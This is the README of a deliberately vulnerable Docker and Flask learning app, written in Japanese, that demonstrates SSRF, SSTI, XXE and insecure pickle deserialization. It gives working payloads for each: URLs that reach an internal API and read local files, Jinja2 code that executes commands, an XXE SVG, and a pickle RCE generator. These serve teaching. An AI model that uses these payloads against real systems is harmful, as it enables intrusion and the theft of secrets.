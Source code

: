 # Vulnerable App for Learning

このアプリケーションは、SSRF (Server-Side Request Forgery) や SSTI (Server-Side Template Injection) などの脆弱性を学習するためのデモンストレーション環境です。
より実践的なシナリオを体験できるよう、複数の機能が実装されています。

## 🚀 セットアップ方法

1.  **Docker Desktop のインストール:**
    Docker Desktop がインストールされていることを確認してください。WSL2 環境を使用している場合は、WSL2 統合が有効になっていることを確認してください。

2.  **リポジトリのクローン:**
    ```bash
    git clone [このリポジトリのURL]
    cd vul_app1
    ```

3.  **アプリケーションの起動:**
    プロジェクトルートで以下のコマンドを実行します。
    ```bash
    docker compose up --build -d
    ```
    **注意:** ポート `5000` が既に他のプロセスで使用されている場合、起動に失敗することがあります。その場合は、`docker compose down` で既存のコンテナを停止するか、`docker-compose.yml` の `frontend` サービスの `ports` 設定を変更してください。

## 構成図

```mermaid
graph TD
    subgraph "Docker Network (app-network)"
        A[frontend]
        B[internal_api]
    end

    User -- "HTTP Request" --> A
    A -- "SSRF Attack" --> B

    style User fill:#f9f,stroke:#333,stroke-width:2px
```

## アプリケーション構成

このアプリケーションは、意図的に脆弱性を持つように構築された2つのコンテナで構成されています。

- **`frontend`**:
  - ユーザーが直接ブラウザでアクセスするWebアプリケーションです (`http://localhost:5000`)。
  - PythonのFlaskフレームワークで実装されています。
  - SSRF、SSTI、XXE、安全でないデシリアライゼーションといった複数の脆弱性を持つエンドポイントが実装されています。

- **`internal_api`**:
  - 外部ネットワークには公開されていない、内部専用のAPIサービスです。
  - `frontend`コンテナからは `http://internal_api:5000` という名前でアクセス可能です。
  - SSRF脆弱性を利用した攻撃のターゲットとして機能し、本来アクセスできないはずの内部情報（例: DB接続情報）を返します。

これら2つのコンテナは `docker-compose.yml` によって定義され、`app-network` という共通の仮想ネットワーク上で動作しています。

## 💡 使い方

アプリケーションは `http://localhost:5000` で動作します。
各ページで様々な脆弱性を試すことができます。

## 脆弱性のデモンストレーション

### 🌐 OGPプレビュー機能 (SSRFのデモンストレーション)

`http://localhost:5000/ssrf` にアクセスしてください。

1.  **正しい使い方 (OGPプレビュー):**
    *   `http://localhost:5000/sample` のURLをフォームに入力し、「プレビュー生成」ボタンをクリックしてください。
    *   OGP情報（タイトル、説明、画像）がカード形式で表示されます。

2.  **SSRF攻撃の実行:**
    *   フォームに以下のURLを入力し、「プレビュー生成」ボタンをクリックしてください。
    *   **内部APIへのアクセス:** `http://internal_api:5000/internal`
        *   本来外部からアクセスできないはずの内部APIの情報（データベース接続情報など）が表示されます。
    *   **ローカルファイルへのアクセス:** `file:///app/flag.txt`
        *   コンテナ内の `flag.txt` の内容が表示されます。

### 📝 社内メンバー紹介カード機能 (SSTIのデモンストレーション)

`http://localhost:5000/personalize` にアクセスしてください。

1.  **シナリオ:**
    社内メンバーのプロフィールカードを生成する機能です。「座右の銘」フィールドにテンプレート構文を直接入力できるため、SSTI (Server-Side Template Injection) の脆弱性が存在します。

2.  **SSTI攻撃の実行:**
    *   「座右の銘」に以下のペイロードを入力し、「カードを生成」ボタンをクリックしてください。
    *   **環境変数の窃取:**
        ```jinja2
        {{ lipsum.__globals__['os'].environ }}
        ```
        サーバーの環境変数を表示させます。
    *   **ファイル読み取り:**
        ```jinja2
        {{ lipsum.__globals__['__builtins__']['__import__']('os').popen('cat /app/flag.txt').read() }}
        ```
        コンテナ内の `flag.txt` の内容を読み取ります。

### 🖼️ SVGアップローダー機能 (XXEのデモンストレーション)

`http://localhost:5000/xxe` にアクセスしてください。

1.  **シナリオ:**
    SVG形式の画像をアップロードして表示する機能です。SVGはXMLベースのフォーマットであり、サーバー側のXMLパーサーが外部エンティティを解決してしまう設定になっているため、XXE (XML External Entity) 脆弱性が存在します。

2.  **XXE攻撃の実行:**
    *   以下の内容を `attack.svg` のようなファイル名で保存し、フォームからアップロードしてください。
    *   **ローカルファイルの読み取り:**
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [
          <!ENTITY xxe SYSTEM "file:///app/flag.txt">
        ]>
        <svg width="200" height="200" xmlns="http://www.w3.org/2000/svg">
          <text x="10" y="90" font-size="20">&xxe;</text>
        </svg>
        ```
        コンテナ内の `flag.txt` の内容が画像として表示されます。

### 📦 データインポート機能 (安全でないデシリアライゼーション)

`http://localhost:5000/deserialize` にアクセスしてください。

1.  **シナリオ:**
    Base64でエンコードされたデータを「インポート」して処理する機能です。バックエンドでは、受け取ったデータを信頼せずに `pickle` を使ってデシリアライズしているため、安全でないデシリアライゼーションの脆弱性が存在します。

2.  **リモートコード実行 (RCE) 攻撃の実行:**
    *   以下のPythonコードを実行して、悪意のあるペイロードを生成します。
        ```python
        import pickle
        import base64
        import os

        class RCE:
            def __reduce__(self):
                # 実行したいOSコマンド
                cmd = ('cat /app/flag.txt')
                return (os.system, (cmd,))

        pickled = pickle.dumps(RCE())
        print(base64.b64encode(pickled).decode())
        ```
    *   生成されたBase64文字列をフォームに貼り付けて「デシリアライズ」ボタンをクリックしてください。
    *   サーバー上でコマンドが実行され、`flag.txt` の内容がアプリケーションのログに出力されます。（Web画面上にはコマンドの実行結果そのものではなく、`0` のような終了コードが表示されることがあります）

## 🔒 内部API (直接アクセス不可)

`http://localhost:5000/internal` に直接アクセスしてみてください。
このAPIは外部に公開されていないため、ブラウザからはアクセスできないことを確認できます。